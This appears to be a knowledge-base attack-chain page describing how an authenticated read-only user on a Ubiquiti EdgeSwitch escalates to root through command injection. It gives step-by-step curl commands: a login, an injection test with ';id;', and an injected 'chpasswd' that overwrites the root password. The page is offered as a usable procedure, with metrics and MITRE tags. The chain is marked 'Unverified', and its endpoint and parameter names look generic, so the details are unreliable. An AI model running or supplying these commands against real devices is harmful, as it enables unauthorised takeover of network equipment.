

# Read-Only to Root Privilege Escalation via Command Injection on Ubiquiti EdgeSwitch

Multi-stage attack chain demonstrating exploitation of a command injection vulnerability in the HTTP interface of Ubiquiti EdgeSwitch devices (firmware 1.9.0 on ESHW and EGSH models), allowing an authenticated read-only user to execute arbitrary shell commands and escalate to root privileges for full device compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Target OS/Platform: Embedded Linux on Ubiquiti EdgeSwitch (ESHW or EGSH models, firmware 1.9.0)
- Required services/ports: HTTP interface on port 80 or 443
- Network access requirements: Direct network access to the device's management interface

### Initial Access Requirements

- Credential requirements: Valid read-only user credentials
- Network position: Attacker must be on the same network segment as the device
- Prior access needed: None, assuming credentials are obtained via social engineering or weak defaults

## Detailed Attack Procedures

### Step 1: Authenticate as Read-Only User
procedure: [[procedures/Authenticate-as-Read-Only-User]]

**Objective**: Gain read-only access to the device's HTTP management interface using provided credentials.

**Instructions**: Use [[commands/curl-login]] to authenticate and obtain a session cookie or token for subsequent requests.

```bash
curl -X POST http://<device-ip>/login.cgi -d "username=readonly_user&password=readonly_pass" -c cookies.txt
```

**Expected Output**: Successful login response with session cookie stored in cookies.txt, redirecting to the dashboard.

**Success Indicators**:
- HTTP 200 or 302 response indicating login success
- Session cookie obtained for further requests

### Step 2: Exploit Command Injection for Root Escalation
procedure: [[procedures/Exploit-Command-Injection-for-Root-Escalation]]

**Objective**: Inject arbitrary shell commands via a vulnerable HTTP parameter to execute as root and escalate privileges.

**Instructions**: Load the session cookie and send a crafted HTTP request to a vulnerable endpoint (e.g., a diagnostic or configuration form) that processes user input without validation, injecting a command like 'id' to verify execution, then escalate with a payload to spawn a root shell.

First, test injection with [[commands/curl-inject-test]]:

```bash
curl -b cookies.txt -X POST http://<device-ip>/diag.cgi -d "param1=;id;" -v
```

If successful, escalate by injecting a command to add a root user or execute privileged actions, such as:

```bash
curl -b cookies.txt -X POST http://<device-ip>/diag.cgi -d "param1=;echo 'root:newpass' | chpasswd;" -v
```

**Expected Output**: Command output in the HTTP response (e.g., 'uid=0(root)' for id command) or evidence of privilege change, such as new root access.

**Success Indicators**:
- Arbitrary command output visible in response
- Ability to execute root-level commands confirming escalation

## Attack Chain Summary

### Key Achievements

1. Authenticated read-only access to the HTTP interface
2. Successful command injection leading to arbitrary shell execution
3. Privilege escalation to root, enabling full device control including configuration changes and data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unix Shell]]
- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-01T12:00:00Z*
